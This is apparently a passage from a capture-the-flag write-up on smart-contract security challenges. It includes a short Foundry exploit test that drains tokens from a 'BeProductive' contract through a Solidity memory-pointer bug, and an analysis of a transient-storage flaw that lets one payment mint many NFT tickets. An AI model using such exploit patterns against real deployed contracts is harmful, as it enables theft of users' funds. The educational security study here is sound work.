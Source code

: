 3. **Complete the Goal**: Finally, call `completeGoal()` to receive all saved tokens, including those manipulated in the previous step.

### Exploit Code

```javascript
function test_GetThisPassing_4() public {
    address hacker = address(0xBAD);
    address targetAddr = address(target);
    uint256 initialBalance = token.balanceOf(hacker);
    
    vm.startPrank(hacker);
    
    token.approve(targetAddr, initialBalance);
    target.createGoal(initialBalance, 50 ether + 1);
    target.plan(token.balanceOf(targetAddr) - initialBalance);
    target.completeGoal();

    vm.stopPrank();

    assertGt(token.balanceOf(hacker), 700 ether);
}
```

### Lessons Learned

This challenge demonstrates the importance of understanding how memory pointers work in Solidity. Memory variables that act as pointers can introduce unintended behavior when reassigned, leading to critical security flaws. Auditing code for pointer assignments and state changes is crucial to ensuring smart contract security.

### Solution on GitHub

You can find my full solution for **BeProductive** on [GitHub](https://github.com/vesla0x1/SmartSecRiddles/blob/solutions/test/4_BeProductive.t.sol).

---

## Transient Trouble

**Transient Trouble** revolves around the `ExclusiveClub` smart contract, which allows users to join an exclusive club by paying a fee and receiving an NFT as a membership ticket. The contract uses **transient storage** to verify that a user has paid the admission fee before minting the ticket. If you're unfamiliar with transient storage or want a deeper dive into its implications and best practices, check out my detailed blog post: [Transient Storage in Ethereum: A Comprehensive Guide](/articles/transient-storage/).

My solution is available on Github: [TransientTrouble Solution](https://github.com/vesla0x1/SmartSecRiddles/blob/solutions/test/8_TransientTrouble.t.sol)

### Vulnerability Analysis

The vulnerability arises from improper handling of **transient storage**. Unlike regular storage, transient storage is cleared only at the end of a transaction, not at the end of each function call. This design flaw allows an attacker to call `payAdmission()` once and then repeatedly call `receiveTicket()` within the same transaction, minting multiple tickets for a single payment.
